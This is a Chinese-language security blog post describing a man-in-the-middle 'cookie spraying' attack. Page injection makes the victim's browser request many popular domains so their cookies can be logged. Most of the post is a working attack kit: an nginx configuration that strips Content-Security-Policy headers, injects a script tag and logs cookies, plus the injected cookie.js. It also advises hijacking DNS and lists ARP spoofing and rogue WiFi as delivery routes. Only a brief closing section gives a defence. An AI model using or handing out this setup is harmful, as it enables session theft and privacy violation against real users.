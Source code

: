 # 中间人攻击 -- Cookie喷发

0x00 前言
=======

* * *

分享个中间人攻击姿势，屡试不爽。

原本[是篇老文](http://www.cnblogs.com/index-html/p/mitm-cookie-sniffer.html)，不过写的太啰嗦。今天用简明的文字，重新讲一遍。

0x01 原理
=======

* * *

传统 cookie 嗅探，只能获得用户主动访问的站点。不访问就抓不到，效率很低。

如果流量可控，不如在用户访问的页面中注入一个脚本。通过脚本，就可以请求任意站点：

```
new Image().src = 'http://anyhost'

```

因为请求头部会带上 cookie，所以能把任意站点的 cookie 骗上流量，让中间人拿到。

0x02 爆发
=======

* * *

首先收集各大网站域名，然后挨个来一发：

```
var list = ['qq.com', '163.com', 'weibo.com', ...];

for (var i of list) {
    new Image().src = 'http://' + i + '/__cookie';
}

```

这样，就能把用户各种网站的 cookie 都爆上一遍。

后端收到`/__cookie`请求，记录其中的 cookie，然后返回一个空内容。于是只需极小的流量，就可以测试一个站点。

0x03 优化
=======

* * *

因为收集了各种站点，所以需要大量的域名解析。

为了让爆破更快，可以再劫持用户的 DNS 请求，暂时解析成自己 IP，这样域名查询就不用走外网。

```
       DNS
     <----->
用户          中间人       外网
     <----->
       HTTP

```

同时还有个巨大的好处：整个系统不依赖外网，可以离线劫持！

比如在没互联网的地方，开一个 WiFi 就能攻击。

0x04 演示
=======

* * *

我们用 nginx 来演示：

```
# nginx.conf

http {
    resolver            114.114.114.114;
    ...

    log_format          record_cookie '$time_iso8601 $remote_addr $http_host $http_cookie';

    # 静态资源
    server {
        listen          8080;
        server_name     m.io;
        gzip            on;
        #expires         1d;
        root            /path/to/;
    }

    # 代理服务
    server {
        listen          8080 default_server;
        server_name     _;
        gzip            on;

        location / {
            # 请求的是 html 资源，进入劫持流程
            if ($http_accept ~ "text/html") {
                rewrite             ^   /__html;
            }
            # 其他资源，正常代理
            proxy_pass              http://$http_host;
        }

        # 页面注入
        location = /__html {
            internal;

            # 压缩的内容无法 sub_filter，先解压
            proxy_set_header        host    $http_host;
            proxy_pass              http://127.0.0.1:50000$request_uri;

            # 删除 CSP 头，防止被阻挡
            proxy_hide_header       Content-Security-Policy;

            # 注入脚本
            sub_filter              <head   "<script src=//m.io/cookie.js></script><head";
        }

        # 记录 cookie
        location = /__cookie {
            access_log              /path/to/cookies.log  record_cookie;

            # 设置缓存时间
            # 避免每次访问页面，都产生大量请求（其实在 js 里判断会更好）
            add_header              Cache-Control   "max-age=3600";

            # 返回空内容
            return                  200;
        }
    }

    # 解压服务
    server {
        listen          127.0.0.1:50000;
        gunzip          on;

        location / {
            proxy_set_header        Accept-Encoding     deflate;
            proxy_pass              http://$host;
        }
    }
}

```

在`/path/to`目录下，放置前端攻击脚本：

```
// cookie.js

(function(list) {
    if (self != top) return;

    list = list.split(' ');

    for (var i = 0; i < list.length; i++) {
        new Image().src = 'http://' + list[i] + '/__cookie';
    }
})(
    // 目标站点列表
    '163.com qq.com weibo.com'
)

```

把浏览器的 HTTP 代理设成 127.0.0.1:8080，就可以演示了。

打开任意 HTTP 页面，就可以爆出用户的各种 Cookie：

![p1](http://drops.javaweb.org/uploads/images/bca8ab4e07c4b6615f63cbd4b6292700bfb9faae.jpg)

![p2](http://drops.javaweb.org/uploads/images/c0196918f724c607c7a87b40c4872535af81506c.jpg)

实战方式有很多，能控制流量就行。比如 ARP 攻击、钓鱼 WiFi、钓鱼代理，或者[劫持小区 PPPoE 网络](http://fex.baidu.com/blog/2014/04/traffic-hijack/)，等等。

0x05 防范
=======

* * *

其实和 JSONP 隐私泄露类似，关闭浏览器「第三方 cookie」即可。

三方 cookie 百害而无一利，隐私泄露的罪魁祸首。